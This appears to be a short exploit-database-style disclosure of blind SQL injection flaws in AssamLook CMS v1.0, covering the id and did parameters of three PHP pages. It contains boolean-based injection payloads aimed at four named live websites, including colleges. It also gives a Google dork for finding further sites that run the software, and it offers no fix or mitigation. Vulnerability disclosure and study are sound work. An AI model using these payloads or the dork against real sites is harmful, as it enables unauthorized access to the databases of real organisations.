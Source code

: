 ## AssamLook CMS - Blind SQL Injection Vulnerabilities

Vender: https://assamlook.com/

Software: AssamLook CMS v1.0

Google Dork: intext:"Powered By Assamlook.com"

Category: WebApps

Tested On: Windows, Firefox

*********************************************************

[+] Vulnerable Parameter: `id` or `did` in URLs with `.php?id=` or `.php?did=`

*********************************************************

### Description

AssamLook CMS has Blind SQL Injection Vulnerabilities in 

- product.php?id=

- department-profile.php?did=

- view_tender.php?id=



### Demo 1:

https://rhinoprintopacks.com/product.php?id=53' and 1=1--+  
https://rhinoprintopacks.com/product.php?id=53' and 1=2--+  

### Demo 2:
https://www.nonoicollege.in/department-profile.php?did=1' and 1=1--+  
https://www.nonoicollege.in/department-profile.php?did=1' and 1=2--+  

### Demo 3:
https://rahacollege.co.in/department-profile.php?did=3' and 1=1--+  
https://rahacollege.co.in/department-profile.php?did=3' and 1=2--+  

### Demo 4:
https://www.lumdingcollege.org/view_tender.php?id=108' and 1=1--+  
https://www.lumdingcollege.org/view_tender.php?id=108' and 1=2--+  

*********************************************************

[+] Google Dork:
intext:"Powered By Assamlook.com"
